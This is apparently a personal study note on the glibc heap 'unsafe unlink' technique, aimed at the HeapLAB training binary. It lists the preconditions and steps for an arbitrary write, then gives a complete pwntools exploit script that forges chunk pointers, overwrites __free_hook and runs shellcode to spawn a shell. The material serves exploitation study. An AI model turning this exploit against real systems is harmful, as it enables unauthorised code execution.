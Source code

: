 ```yaml
---
title: "Unsafe Unlink"
tags: [Binary Exploitation, Heap]
excerpt: "Unsafe Unlink"
layout: single
classes: wide
--- 
```


Exploiting free on a corrupted chunk to get arbitrary write. Unsafe unlinking process will result in a reflected arbitrary 8-byte write anywhere.

## Requirements
* Allocate chunks in the unsorted bin, `120 - 1000 bytes`
* Ability to corrupt `prev_size` and `prev_in_use` flag of a chunk, usually through heap overflow
* Ability to forge a fake freed chunk by writing valid `fd` and `bk` pointers in a chunk's data
    * `fd` and `bk` must both be writable addresses, such as GOT

## Process
### Arbitrary Write Primitive
_Assuming `target` is the address to be overwritten_
* Allocate 2 chunks in the unsorted bin
* In the fake free chunk:
    * `fd (first 8 bytes in chunk data)` contains `target`
    * `bk (next 8 bytes in chunk data)` contains 8-bytes to be written to `target`
* In the corrupted chunk:
    * Overwrite `prev_size` to be the size of the previous fake free chunk
    * Overwite `prev_in_use` to be 0, `size` of chunk `0x91 -> 0x90`
* Free the corrupted chunk
    * `bk` will contain `fd`, vice versa

## Example: HeapLAB unsafe_unlink   
_chunk A: fake free chunk, chunk B: corrupted chunk_
RCE is gained by writing address of chunk A's data to `__free_hook`, and writing shellcode in chunk A's data as `NX` is not set.
```python
from pwn import *

config = {"elf" : "./unsafe_unlink"}

def malloc(size):
    sla('> ', '1')
    sla('size: ', str(size))

def edit(index, data):
    sla('> ', '2')
    sla('index: ', str(index))
    sla('data: ', data)

def free(index):
    sla('> ', '3')
    sla('index: ', str(index))

def exploit(p):
    # Get puts and heap leak
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc addresses
    libc.address = puts - libc.symbols['puts']
    free_hook = libc.symbols['__free_hook']

    malloc(0x88)
    malloc(0x88)
    
    # In chunk A: Forge fake free chunk by faking fd and bk
    # In chunk B: Overwrite prev_size and prev_in_use to make the heap think A is freed
    fd = free_hook - 24
    bk = heap_addr + 0x10
    prev_size = 0x90
    size = 0x90
    data = p64(fd) + p64(bk) + '\x00'*112 + p64(prev_size) + p64(size)
    edit(0, data)

    # Free chunk B, heap will try to consolidate A and B with unlinking
    # Overwrite fd with bk, bk with fd due to unsafe unlinking
    # __free_hook now points to data of chunk A
    free(1)

    # Write shellcode into data of chunk A
    shellcode = asm(shellcraft.sh())
    edit(0, shellcode)

    # Pop shell using free() and __free_hook
    free(0)
    
    lg('heap_addr: ' + hex(heap_addr))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = elf.libc

    p = process(elf.path)
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
